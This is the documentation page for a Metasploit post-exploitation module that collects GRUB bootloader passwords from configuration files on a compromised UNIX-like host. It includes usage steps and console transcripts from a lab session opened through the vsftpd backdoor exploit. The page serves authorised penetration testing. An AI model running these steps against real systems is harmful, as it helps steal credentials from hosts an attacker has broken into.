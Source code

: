 # Gather GRUB Passwords

Reads all passwords from GRUB configuration files on UNIX-like machines.

## Vulnerable Application

Any UNIX-like system with a `shell` or `meterpreter` session using GRUB.

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/grub_creds```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the
     session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable GRUB configuration files containing a password,
     they will be printed out.

## Options

**FILENAME**

A string that can be used to specify an additional file to check after the
usual places.

**VERBOSE**

A boolean that, when set, will provide more details on what is being checked.
_(Note: this option is defined elsewhere in metasploit, but this module can make
use of it.)_

## Scenarios

Using a Metasploitable 2 VM (running Ubuntu 8.04), you can add the line
`password topscret` to `/boot/grub/menu.lst` if you want to see this module in
action.

## Shell

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > use post/multi/gather/grub_creds
msf5 post(multi/gather/grub_creds) > run
[-] Post failed: Msf::OptionValidateError The following options failed to validate: SESSION.
msf5 post(multi/gather/grub_creds) > set SESSION 1
SESSION => 1
msf5 post(multi/gather/grub_creds) > run

[+] /boot/grub/menu.lst:password topsecret
[*] Grub configuration files found and checked: 1.
[*] Post module execution completed
msf5 post(multi/gather/grub_creds) > set VERBOSE true
VERBOSE => true
msf5 post(multi/gather/grub_creds) > set FILENAME /root/grub.cfg
FILENAME => /root/grub.cfg
msf5 post(multi/gather/grub_creds) > run

[*] Finding grub configuration files
[*] Checking /boot/grub/grub.conf
[*] /boot/grub/grub.conf not found or unreadable
[*] Checking /boot/grub/grub.cfg
[*] /boot/grub/grub.cfg not found or unreadable
[*] Checking /boot/grub/menu.lst
[+] /boot/grub/menu.lst:password topsecret
[*] Checking /etc/grub.conf
[*] /etc/grub.conf not found or unreadable
[*] Checking /etc/grub/grub.cfg
[*] /etc/grub/grub.cfg not found or unreadable
[*] Checking /etc/grub.d/00_header
[*] /etc/grub.d/00_header not found or unreadable
[*] Checking /mnt/sysimage/boot/grub.conf
[*] /mnt/sysimage/boot/grub.conf not found or unreadable
[*] Checking /mnt/boot/grub/grub.conf
[*] /mnt/boot/grub/grub.conf not found or unreadable
[*] Checking /rpool/boot/grub/grub.cfg
[*] /rpool/boot/grub/grub.cfg not found or unreadable
[*] Checking /root/grub.cfg
[*] /root/grub.cfg not found or unreadable
[*] Grub configuration files found and checked: 1.
[*] Post module execution completed
msf5 post(multi/gather/grub_creds) >
```

### Meterpreter
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > run post/multi/gather/grub_creds

[+] /boot/grub/menu.lst:password topsecret
[*] Grub configuration files found and checked: 1.
meterpreter >
```

